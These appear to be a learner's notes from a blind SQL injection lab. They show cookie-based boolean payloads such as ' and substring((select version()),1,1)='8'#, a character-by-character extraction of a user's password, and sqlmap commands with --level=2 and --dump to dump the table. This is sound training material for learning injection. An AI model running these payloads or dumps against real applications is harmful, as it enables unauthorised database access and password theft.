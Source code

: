 ![[Pasted image 20230718193629.png]]

url encode " or 1=1# and send but we get no response
try  single quote ' but that dosent work as well

```sh
sqlmap -r req.txt
```

req.txt contains HTTP request

![[Pasted image 20230718194403.png]]

Once we send the POST request containing username and password, a cookie is set and that cookie is set in subsequent GET requests



HTTP response after submitting username and password that contains the cookie
![[Pasted image 20230718194720.png]]

subsequent GET requests

![[Pasted image 20230718194809.png]]


append ' or 1=1# at the end of cookie

![[Pasted image 20230718195206.png]]

and we get a valid response

***This is Blind SQL Injection since the query dosent give us any data from the tables rather it only changes behaviour of the page 

eg :
i/p:
' and 1=2#
which is a false query we get 

o/p:

![[Pasted image 20230718201748.png]]

so it does validate the cookie and if given false SQL code it dosent validate the user but if given correct SQL code, it validates the user but dosent give us any tables

SQL substring :
SUBSTRING(_string_, _start_, _length_)

new payload
to check what the first character is

i/p:
' and substring('a',1,1)='1'#
if the first character of string provided in substring  'a' or not

so to check the version

i/p:
' and substring((select version()),1,1)='7'#
put select version() in () because it has to resolve first
version not 7, try 8

i/p:
' and substring((select version()),1,1)='8'#
o/p:
![[Pasted image 20230718203059.png]]

and it is accepted so it is version 8.x.x

now find the third character since second cahracter will be a dot(.)

i/p:
' and substring((select version()),1,3)='8.0'#
and we get a valid o/p

now find the final character

i/p:
' and substring((select version()),1,5)='8.0.3'#

o/p:
![[Pasted image 20230718203356.png]]

now to find password

i/p:
' and substring((select password from injection0x02 where username='jessamy'),1,1)='a'#

(select password from injection0x02 where username='jessamy') entire thing inside ()
because it has to resolve as a whole and has to be resolved first

loop through all characters to find first alphabet of the password

send to intruder and loop through all characters

match at alphabet z

i/p:
' and substring((select password from injection0x02 where username='jessamy'),1,1)='z'#

o/p:
![[Pasted image 20230718204354.png]]

use sqlmap now

```sh
sqlmap -r req2.txt --level=2
```


to use sql map in cookies need to add
--level=2

no need to url encode cookie values since we got our payload working without URL encoding cookie value

![[Pasted image 20230718205131.png]]

it gave us the payload to use


```sh
sqlmap -r req2.txt --level=2 --dump
```

dump the payload we got 

```sh
sqlmap -r req2.txt --level=2 --dump -T injection0x02
```
-T:table name

![[Pasted image 20230718205513.png]]

-----
we got a match true for 'z'='Z' which is something to be lloked carefully in SQL 

---